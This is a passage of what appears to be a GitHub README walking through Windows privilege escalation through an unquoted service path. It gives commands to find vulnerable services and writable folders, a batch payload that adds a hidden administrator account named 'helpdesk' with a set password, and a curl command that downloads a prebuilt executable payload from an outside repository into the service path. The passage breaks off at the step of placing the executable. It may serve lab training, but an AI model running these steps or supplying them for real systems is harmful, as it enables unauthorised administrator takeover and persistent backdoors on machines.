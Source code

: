 ```bash
wmic service get name,displayname,startmode,pathname | findstr /i /v "C:\Windows\\" |findstr /i /v """
```

**We focus on:**

`C:\Program Files\Unquoted Path Service\Common Files\unquotedpathservice.exe`

**Steps:**

1. **Check Folder Permissions:**

   - Run this command to check who can access and modify files in the folder:

     ```bash
     icacls "C:\Program Files\Unquoted Path Service"
     ```

   - Look for the following permission flags in the output:

     - **(F)** – Full control: Can read, write, delete, and change permissions.
     - **(M)** – Modify: Can read, write, and delete files.
     - **(RX)** – Read & Execute: Can read and run files.
     - **(R)** – Read: Can only view the files.
     - **(W)** – Write: Can add files but with limited rights.

   - Focus on whether **BUILTIN\Users**, **Everyone** or other non-admin groups have **(F)** or **(M)** permissions, meaning you can write or modify files. If only **(RX)** or **(R)** is shown, you don’t have the required access.

2. **Create a Batch File:**

   - Write a simple batch file called `Common.bat` with the following content:

     ```bash
     net user helpdesk L3tm3!n /add && net localgroup administrators helpdesk /add
     ```

   - This will create a user `helpdesk` with administrative rights.

3. **Convert Batch File to Executable:**

   - Use a tool like [bat2exe](https://bat2exe.net/) to convert the batch file into an executable file (`Common.exe`).

4. **Optional: Download the Executable Payload:**

   - If you already have the executable payload hosted somewhere, you can download it using the following `curl` command:

     ```bash
     curl -o "C:\Program Files\Unquoted Path Service\Common.exe" https://raw.githubusercontent.com/Ardemium/InsideJob/refs/heads/main/payloads/Common.exe
     ```

     > **Note:** Modify the destination path (`"C:\Program Files\Unquoted Path Service\Common Files\Common.exe"`) to your desired location and file name, if necessary.

5. **Place Executable:**
